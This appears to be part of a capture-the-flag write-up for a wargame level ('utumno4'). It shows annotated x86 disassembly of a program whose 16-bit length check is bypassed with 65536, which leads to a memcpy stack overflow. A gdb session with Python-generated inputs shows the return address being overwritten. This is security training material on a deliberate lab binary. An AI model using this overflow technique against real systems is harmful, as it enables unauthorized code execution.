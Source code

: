 ```nasm
0x0804844b <+0>:	push   ebp
0x0804844c <+1>:	mov    ebp,esp
0x0804844e <+3>:	sub    esp,0xff04
0x08048454 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048457 <+12>:	add    eax,0x4
0x0804845a <+15>:	mov    eax,DWORD PTR [eax] EAX = ptr to our input string
0x0804845c <+17>:	push   eax ; push the ptr on the stack
0x0804845d <+18>:	call   0x8048330 <atoi@plt> ; convert it to integer
0x08048462 <+23>:	add    esp,0x4
0x08048465 <+26>:	mov    DWORD PTR [ebp-0x4],eax ; store the result of atoi()
0x08048468 <+29>:	mov    eax,DWORD PTR [ebp-0x4] ; move the result in eax
0x0804846b <+32>:	mov    WORD PTR [ebp-0x6],ax ; move AX on the stack
0x0804846f <+36>:	cmp    WORD PTR [ebp-0x6],0x3f; compare AX to 63
0x08048474 <+41>:	jbe    0x804847d <main+50> ; if below or equal to 63 continue
0x08048476 <+43>:	push   0x1
0x08048478 <+45>:	call   0x8048310 <exit@plt>
0x0804847d <+50>:	mov    edx,DWORD PTR [ebp-0x4]
0x08048480 <+53>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048483 <+56>:	add    eax,0x8
0x08048486 <+59>:	mov    eax,DWORD PTR [eax] ; ptr to the second argument
0x08048488 <+61>:	push   edx ; number of bytes to copy (first arg)
0x08048489 <+62>:	push   eax ; source of data to be copied (second arg)
0x0804848a <+63>:	lea    eax,[ebp-0xff02]
0x08048490 <+69>:	push   eax ; destination where the data is to be copied
0x08048491 <+70>:	call   0x8048300 <memcpy@plt>
0x08048496 <+75>:	add    esp,0xc
0x08048499 <+78>:	mov    eax,0x0
0x0804849e <+83>:	leave
0x0804849f <+84>:	ret
```

As you can see, we need to pass to arguments. The first one is the size of our buffer and the second one is the buffer itself. I used **65536** as it is the max value of an unsigned half-word. By doing that we make sure that **AX** will be zero (AX is the lower half of EAX).

After a few try, you should be able to get control over the return address:

```nasm
utumno4@utumno:/utumno$ gdb -q ./utumno4
Reading symbols from ./utumno4...done.
(gdb) set disassembly-flavor intel
(gdb) run 65536 $(python -c "print 'A' * 65536")
Starting program: /utumno/utumno4 65536 $(python -c "print 'A' * 65536")

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run 65536 $(python -c "print 'A' * 65286 + 'BBBB' + 'C' * 246")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno4 65536 $(python -c "print 'A' * 65286 + 'BBBB' + 'C' * 246")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
